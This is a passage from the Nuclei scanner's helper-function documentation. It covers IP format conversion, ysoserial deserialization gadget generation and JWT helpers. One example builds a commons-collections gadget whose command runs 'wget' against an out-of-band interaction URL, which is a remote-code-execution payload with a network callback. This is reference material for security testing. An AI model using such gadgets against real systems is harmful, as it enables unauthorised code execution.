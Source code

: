 | ip_format(ip string, format string) string | It takes an input ip and converts it to another format according to this [**legend**](https://github.com/projectdiscovery/mapcidr/wiki/IP-Format-Index), the second parameter indicates the conversion index and must be between 1 and 11 | **`ip_format("127.0.0.1", 3)`** | **`0177.0.0.01`** |

## **Deserialization helper functions**

Nuclei allows payload generation for a few common gadget from [**ysoserial**](https://github.com/frohoff/ysoserial).

**Supported Payload:**

- **`dns`** (URLDNS)
- **`commons-collections3.1`**
- **`commons-collections4.0`**
- **`jdk7u21`**
- **`jdk8u20`**
- **`groovy1`**

**Supported encodings:**

- **`base64`** (default)
- **`gzip-base64`**
- **`gzip`**
- **`hex`**
- **`raw`**

**Deserialization helper function format:**

```java
{ { generate_java_gadget(payload, cmd, encoding } }
```

**Deserialization helper function example:**

```java
{{generate_java_gadget("commons-collections3.1", "wget http://{{interactsh-url}}", "base64")}}
```

## **JSON helper functions**

Nuclei allows manipulate JSON strings in different ways, here is a list of its functions:

- **`generate_jwt`**, to generates a JSON Web Token (JWT) using the claims provided in a JSON string, the signature, and the specified algorithm.
- **`json_minify`**, to minifies a JSON string by removing unnecessary whitespace.
- **`json_prettify`**, to prettifies a JSON string by adding indentation.

**Examples**

**`generate_jwt`**

To generate a JSON Web Token (JWT), you have to supply the JSON that you want to sign, *at least*.

Here is a list of supported algorithms for generating JWTs with **`generate_jwt`** function *(case-insensitive)*:

- **`HS256`**
- **`HS384`**
- **`HS512`**
- **`RS256`**
- **`RS384`**
- **`RS512`**
- **`PS256`**
- **`PS384`**
- **`PS512`**
- **`ES256`**
- **`ES384`**
- **`ES512`**
- **`EdDSA`**
- **`NONE`**
